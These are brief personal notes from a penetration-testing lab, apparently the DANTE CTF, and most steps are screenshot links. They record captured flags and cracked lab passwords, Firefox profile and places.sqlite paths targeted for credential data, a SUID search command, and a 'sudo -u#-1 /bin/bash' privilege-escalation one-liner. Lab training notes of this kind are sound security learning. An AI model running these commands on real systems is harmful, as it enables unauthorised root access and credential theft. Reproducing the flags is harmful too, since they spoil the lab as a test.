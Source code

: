 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings
### Credentials
`FoundCREDs`

### Flag
1. `DANTE{wHy_y0U_n0_s3cURe?!?!}`
2. `DANTE{Pretty_Horrific_PH4IL!}`
3. `DANTE{sudo_M4k3_me_@_Sandwich}`
## External
### Enumeration
![](https://i.imgur.com/ElYkpR9.png)
![](https://i.imgur.com/B8bHUjJ.png)

![](https://i.imgur.com/IavJ7gG.png)
![](https://i.imgur.com/ny4Cd8W.png)
egre55 adarsh
- I dumped the username and passwords. and created my own wordlist and tried to crack the ftp with it.
![](https://i.imgur.com/cW3ddn7.png)
` ben : Welcometomyblog `
![](https://i.imgur.com/PmTdhkf.png)
![](https://i.imgur.com/cMCk3al.png)
- ` etemesi : 12345`
`_ston"] = mysqli_connect("localhost","root","","blog_admin_db")); `
![](https://i.imgur.com/e7AJFfe.png)

### Gaining Access
![](https://i.imgur.com/26kJtbT.png)
## Internal
### Enumeration
```
/home/ben/.mozilla/firefox/c2algvkx.default-release
\

/home/julian/.mozilla/firefox/ock69jxe.default-release/places.sqlite

/etc/ImageMagick-6/mime.xml

find / -perm -2000 -type f ! -path /dev/*
```
![](https://i.imgur.com/wdpIoWr.png)
### Gaining Access
![](https://i.imgur.com/4LEoBR5.png)
![](https://i.imgur.com/01Z7676.png)
### Maintaining Access
![](https://i.imgur.com/T9blrWw.png)
` sudo -u julian -u#-1 /bin/bash `

# Random Notes